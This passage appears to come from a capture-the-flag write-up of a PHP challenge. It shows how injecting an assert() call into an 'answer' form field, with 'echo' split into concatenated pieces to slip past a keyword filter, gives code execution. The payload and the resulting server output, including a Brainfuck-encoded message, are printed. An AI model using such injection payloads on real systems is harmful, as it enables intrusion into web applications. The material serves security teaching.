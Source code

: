 See? We aim to try RCE with another assert in that answer variable. Since echo is banned and filtered by function is_clean, so we could split "echo 'test'" into "ec"."ho 'test'"

## C. Exploitation

#### First Payload

```php
<answer>' and assert("ec"."ho 'test'") and '1

```

We have two form, for the first, we are given the free captcha to be input. Just see at message 'Type '663716' for the given captcha'. So let's try our first exploit, by injecting above code into answer form, we can get 

```html
test
Can y0u print something out of this brain-fucking c0de?
++++++++++[ > +++++++++++ < -]>++++++++.[-]++++++++++[ > +++++++++++ < -]>+.[-]++++++++++[ > ++++++++++ < -]>+++++.[-]++++++++++[ > ++++++++++ < -]>.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > ++++++++++ < -]>+++++++++.[-]++++++++++[ > +++++++++ < -]>+++++++.[-]++++++++++[ > ++++++++++ < -]>+++++.[-]++++++++++[ > +++++++++++ < -]>.[-]++++++++++[ > ++++ < -]>.[-]++++++++++[ > ++++ < -]>+.[-]++++++++++[ > ++++++++++++ < -]>+++.[-]++++++++++[ > + < -]>.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > ++++++++++ < -]>+.[-]++++++++++[ > ++++++++++++ < -]>.[-]++++++++++[ > +++++++++++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > ++++++ < -]>+.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++++ < -]>+++.[-]++++++++++[ > +++++ < -]>++++++.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > +++++ < -]>+++.[-]++++++++++[ > ++++ < -]>++++++++.[-]++++++++++[ > +++++ < -]>+++++++.[-]++++++++++[ > +++++ < -]>+++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > +++++ < -]>+++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > +++++ < -]>++++.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > ++++ < -]>++.[-]++++++++++[ > +++++ < -]>.[-]++++++++++[ > +++++ < -]>.[-]++++++++++[ > +++++ < -]>+++.[-]++++++++++[ > ++++ < -]>+++++++++.[-]++++++++++[ > ++++ < -]>+++++++++.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > +++++ < -]>+++++++.[-]++++++++++[ > +++++ < -]>++++++.[-]++++++++++[ > +++++ < -]>++++.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > ++++ < -]>++++++++.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > +++++ < -]>+++.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > +++++ < -]>++++.[-]++++++++++[ > +++++ < -]>++++.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > ++++ < -]>+++++++++.[-]++++++++++[ > ++++ < -]>++++++++.[-]++++++++++[ > +++++ < -]>.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > ++++ < -]>++++++++.[-]++++++++++[ > ++++ < -]>++.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > ++++ < -]>+++++++++.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > +++++ < -]>.[-]++++++++++[ > +++++ < -]>.[-]++++++++++[ > +++++ < -]>++++++.[-]++++++++++[ > + < -]>.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++++++++++ < -]>++.[-]++++++++++[ > +++++++++++ < -]>++++.[-]++++++++++[ > ++++++++++ < -]>+++++.[-]++++++++++[ > +++++++++++ < -]>.[-]++++++++++[ > +++++++++++ < -]>++++++.[-]++++++++++[ > ++++++++++ < -]>++.[-]++++++++++[ > ++++ < -]>.[-]++++++++++[ > ++++++++++ < -]>+.[-]++++++++++[ > ++++++++++++ < -]>.[-]++++++++++[ > +++++++++++ < -]>++.[-]++++++++++[ > ++++ < -]>+.[-]++++++++++[ > +++++ < -]>+++++++++.[-]++++++++++[ > + < -]>.[-]++++++++++[ > ++++++++++++ < -]>+++++.[-]
Answer: 
Answer the question
 


Captcha: 
Enter the captcha 
  Submit
e.g Type '427246' for the given captcha
You've made 0 correct answers
```
